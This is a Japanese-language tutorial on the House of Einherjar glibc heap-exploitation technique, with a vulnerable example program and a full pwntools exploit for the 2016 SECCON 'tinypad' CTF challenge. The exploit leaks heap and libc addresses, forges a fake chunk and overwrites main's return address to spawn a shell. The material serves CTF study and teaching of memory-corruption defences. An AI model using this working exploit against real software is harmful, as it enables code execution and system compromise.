




#  House Of Einherjar

## はじめに

house of einherjar は `Hiroki Matsukuma` によって提唱されたヒープ攻撃手法です。この手法を使うと、`malloc` に、ほぼ任意のアドレスの chunk を強制的に返させることができます。要点は、`free` における後方統合(低位アドレス側の chunk との統合)の動作を悪用することにあり、この動作は本来、断片化をできるだけ避けるためのものです。

また、特定のサイズのチャンクでは、off by one によって次のチャンクの prev_size だけでなく、次のチャンクの PREV_INUSE ビットも書き換えられる点に注意が必要です。

## 原理

### 後方統合の動作

`free` 関数における後方統合の中心的な処理は次のとおりです。

```c
        /* consolidate backward */
        if (!prev_inuse(p)) {
            prevsize = prev_size(p);
            size += prevsize;
            p = chunk_at_offset(p, -((long) prevsize));
            unlink(av, p, bck, fwd);
        }
```

ここでは原作者の図を借りて説明します。



全体の動作については、「ヒープ実装の深い理解」の章を参照してください。

### 攻撃の原理

ここで、この攻撃の原理を説明します。まず、これまでのヒープの説明から、次のことがわかっています。

- 物理的に隣接する 2 つの chunk は `prev_size` フィールドを共有します。特に低位アドレスの chunk が使用中の場合、高位アドレスの chunk のこのフィールドは低位アドレスの chunk が使えます。したがって、低位アドレスの chunk に書き込むことで、高位アドレスの chunk の `prev_size` フィールドを上書きできる可能性があります。
- chunk の PREV_INUSE ビットは、物理的に隣接する低位アドレスの chunk の使用状態を示しており、このビットは prev_size と物理的に隣接しています。
- 後方統合の際、新しい chunk の位置は `chunk_at_offset(p, -((long) prevsize))` によって決まります。

**したがって、ある chunk の prev_size と PREV_INUSE の両方のフィールドを制御できれば、新しい chunk をほぼ任意の位置に向けることができます。**

### 攻撃の流れ

#### オーバーフロー前

オーバーフロー前の状態が次のようであるとします。



#### オーバーフロー

ここでは、p0 のチャンクが一方で prev_size フィールドに書き込め、他方で off by one の脆弱性があって次の chunk の PREV_INUSE 部分に書き込めると仮定します。すると次のようになります。



#### オーバーフロー後

**p1 の prev_size フィールドに、目的の chunk の位置と p1 との差を設定するとします**。オーバーフロー後に p1 を解放すると、得られる新しい chunk の位置 `chunk_at_offset(p1, -((long) prevsize))` は、まさに目的の chunk の位置になります。

もちろん、ここで新しい chunk に対して unlink が行われるため、unlink の検査を回避できるよう、対応する chunk の位置に fake chunk を作っておく必要があります。



### 攻撃例

House Of Einherjar 攻撃が可能なコードは次のとおりです。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    char* s0 = malloc(0x200);　//fake chunk を構築
    char* s1 = malloc(0x18);
    char* s2 = malloc(0xf0);　
    char* s3 = malloc(0x20); //s2 が top chunk と統合されないようにするため
    printf("begin\n");
    printf("%p\n", s0);
    printf("input s0\n");
    read(0, s0, 0x200); //fake chunk を読み込む
    printf("input s1\n");
    read(0, s1, 0x19); //Off By One
    free(s2);
    return 0;
}
```

攻撃コードは次のとおりです。

```python
from pwn import *

p = process("./example")
context.log_level = 'debug'
#gdb.attach(p)
p.recvuntil("begin\n")
address = int(p.recvline().strip(), 16)
p.recvuntil("input s0\n")
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
'''
p64(address) * 2是为了绕过
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
  malloc_printerr ("corrupted double-linked list");
'''
payload += p64(0x100) #fake size
p.sendline(payload)
p.recvuntil("input s1\n")
payload = "A"*0x10 + p64(0x220) + "\x00"
p.sendline(payload)
p.recvall()
p.close()
```

**ここで unlink の検査を回避する方法は、以前 unlink の脆弱性を利用したときの方法とは異なることに注意してください**

unlink の脆弱性を利用するときは次のようにしました。

```c
 p->fd = &p-3*4
 p->bk = &p-2*4
```

今回の攻撃では `&p` を知る方法がないため、直接次のようにします。

```c
p->fd = p
p->bk = p
```

**ここで注意すべき点があります。**

```python
payload = p64(0) + p64(0x101) + p64(address) * 2 + "A"*0xe0
```

実は、次のように変更しても構いません。

```python
payload = p64(0) + p64(0x221) + p64(address) * 2 + "A"*0xe0
```

理屈からいえば fake chunk の size は `0x221` が妥当ですが、なぜ `0x101` でもよいのでしょうか。これは、size と prev_size の検証が unlink の中でしか行われないためで、unlink の中では次のように検証されます。

```c
if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");
```

したがって、fake chunk の next chunk の prev_size フィールドさえ偽造すれば十分です。

### まとめ

この攻撃手法で注意すべき点をまとめます。

- 物理的に隣接する高位アドレス側の prev_size と PREV_INUSE の部分に書き込めるオーバーフローの脆弱性が必要です。
- 目的の chunk と p1 のアドレスの差を計算する必要があるため、アドレスのリークが必要です。
- 目的の chunk の近くに対応する fake chunk を作り、unlink の検査を回避する必要があります。


実は、この手法は chunk extend/shrink の手法とかなり似ています。


## 2016 Seccon tinypad
[問題へのリンク](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/house-of-einherjar/2016_seccon_tinypad)

### 基本機能の分析

まず、このプログラムは中核となる読み込み関数、つまり指定した長さのバイト列を読み込む関数に依存していることがわかります。ところが、読み込む長さがちょうど指定した長さのとき、**off by one の脆弱性**が生じます。

プログラムを分析すると、基本機能は tinypad の操作であり、主に次の操作があることがわかります。

- 冒頭。プログラムは毎回の冒頭で、各 memo のポインタを順に調べて空かどうかを判断し、空でなければ strlen で対応する長さを求めて memo の内容を出力します。ここから、memo は最大 4 つであることもわかります。
- memo の追加。memo を格納する変数 tinypad を走査し、tinypad に格納されたサイズから memo が使用中かどうかを判断し、空きがあれば memo を 1 つ確保します。ここから、プログラムは tinypad の先頭から 16*16=256 のオフセットの位置からしか使っていないことがわかります。各 memo は 2 つのフィールドを格納し、1 つはその memo のサイズ、もう 1 つは対応するポインタです。そのため、新しい構造体を作り、IDA が認識した tinypad を修正して読みやすくできます(ただし実際には IDA が賢く認識してくれるわけではありません)。また、この追加機能は読み込み関数に依存しているため、off by one の脆弱性があります。さらに、ユーザーが要求する chunk の最大サイズは 256 バイトで、tinypad の前方の未使用の 256 バイトとちょうど一致します。
- 削除。memo のサイズから memo が使用中かどうかを判断し、対応する memo のサイズを 0 にしますが、ポインタは NULL にしないため、Use After Free になる可能性があります。**つまり、プログラムの冒頭で関連する内容が出力される可能性があり、これがベースアドレスをリークする足がかりになります**。
- 編集。編集時、プログラムはまず、保存してある memo の内容を tinypad の先頭 256 バイトにコピーしますが、前述のとおり、memo が 256 バイトを格納している場合は off by one の脆弱性が生じます。同時に、プログラムは strlen でコピー後の tinypad の内容の長さを判断して出力します。その後、プログラムは再び strlen で memo の長さを求め、指定した長さの内容を tinypad に読み込みます。読み込み関数の仕様上、ここで必ず `\x00` が現れます。最後に、プログラムは tinypad の先頭 256 バイトに読み込んだ内容を、対応する memo に格納します。
- 終了

### 攻撃

基本的な攻撃の方針は次のとおりです。

1. 削除時にポインタを NULL にしない UAF の脆弱性を利用して、ヒープのベースアドレスをリークする
2. 再び UAF の脆弱性を利用して、libc のベースアドレスをリークする。
3. house of einherjar の手法で、tinypad の先頭 256 バイトの中に chunk を偽造する。再び確保すると、4 つの memo のポインタと内容を制御できるようになる。
4. 最初に思いつくのは malloc_hook を one_gadget のアドレスで直接上書きすることかもしれませんが、編集時にプログラムは strlen で読み込める長さを判断しており、malloc_hook は初期状態で 0 です。そのため直接は上書きできないので、ここでは別の方法、つまりプログラムの main 関数のリターンアドレスを one_gadget に書き換える方法をとります。これが成り立つのは、リターンアドレスが 7f で始まることが多く、長さが十分あって one_gadget で上書きできるからです。そのため main 関数のリターンアドレスをリークする必要があります。libc には main 関数の environ ポインタのアドレスが格納されているので、まず environ のアドレスをリークし、それから main 関数のリターンアドレスを格納しているアドレスを知ることができます。ここで environ シンボルを選ぶのは、environ が libc でエクスポートされているのに対し、argc や argv はエクスポートされず、比較的面倒になるためです。
5. 最後に main 関数のリターンアドレスを one_gadget のアドレスに書き換えて shell を取得する。

具体的な攻撃スクリプトは次のとおりです。

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
    # second idx1 will merge with idx0(unlink), and point to idx0
    # third idx1 will merge into top chunk
    # but cause unlink feture, the idx0's fd and bk won't change
    # so idx0 will leak the unsorted bin addr
    delete(3)
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)
    unsorted_offset_arena = 8 + 10 * 8
    main_arena = u64(data.ljust(8, '\x00')) - unsorted_offset_arena
    libc_base = main_arena - main_arena_offset
    log.success('main arena addr: ' + hex(main_arena))
    log.success('libc base addr: ' + hex(libc_base))

    # 3. house of einherjar
    add(0x18, 'a' * 0x18)  # idx 0
    # we would like trigger house of einherjar at idx 1
    add(0x100, 'b' * 0xf8 + '\x11')  # idx 1
    add(0x100, 'c' * 0xf8)  # idx 2
    add(0x100, 'd' * 0xf8)  #idx 3

    # create a fake chunk in tinypad's 0x100 buffer, offset 0x20
    tinypad_addr = 0x602040
    fakechunk_addr = tinypad_addr + 0x20
    fakechunk_size = 0x101
    fakechunk = p64(0) + p64(fakechunk_size) + p64(fakechunk_addr) + p64(
        fakechunk_addr)
    edit(3, 'd' * 0x20 + fakechunk)

    # overwrite idx 1's prev_size and
    # set minaddr of size to '\x00'
    # idx 0's chunk size is 0x20
    diff = heap_base + 0x20 - fakechunk_addr
    log.info('diff between idx1 and fakechunk: ' + hex(diff))
    # '\0' padding caused by strcpy
    diff_strip = p64(diff).strip('\0')
    number_of_zeros = len(p64(diff)) - len(diff_strip)
    for i in range(number_of_zeros + 1):
        data = diff_strip.rjust(0x18 - i, 'f')
        edit(1, data)
    delete(2)
    p.recvuntil('\nDeleted.')

    # fix the fake chunk size, fd and bk
    # fd and bk must be unsorted bin
    edit(4, 'd' * 0x20 + p64(0) + p64(0x101) + p64(main_arena + 88) +
         p64(main_arena + 88))

    # 3. overwrite malloc_hook with one_gadget

    one_gadget_addr = libc_base + 0x45216
    environ_pointer = libc_base + libc.symbols['__environ']
    log.info('one gadget addr: ' + hex(one_gadget_addr))
    log.info('environ pointer addr: ' + hex(environ_pointer))
    #fake_malloc_chunk = main_arena - 60 + 9
    # set memo[0].size = 'a'*8,
    # set memo[0].content point to environ to leak environ addr
    fake_pad = 'f' * (0x100 - 0x20 - 0x10) + 'a' * 8 + p64(
        environ_pointer) + 'a' * 8 + p64(0x602148)
    # get a fake chunk
    add(0x100 - 8, fake_pad)  # idx 2
    #gdb.attach(p)

    # get environ addr
    p.recvuntil(' # CONTENT: ')
    environ_addr = p.recvuntil('\n', drop=True).ljust(8, '\x00')
    environ_addr = u64(environ_addr)
    main_ret_addr = environ_addr - 30 * 8

    # set memo[0].content point to main_ret_addr
    edit(2, p64(main_ret_addr))
    # overwrite main_ret_addr with one_gadget addr
    edit(1, p64(one_gadget_addr))
    p.interactive()


if __name__ == "__main__":
    run()
```


## 参考文献

- https://www.slideshare.net/codeblue_jp/cb16-matsukuma-en-68459606
- https://gist.github.com/hhc0null/4424a2a19a60c7f44e543e32190aaabf
- https://bbs.pediy.com/thread-226119.htm
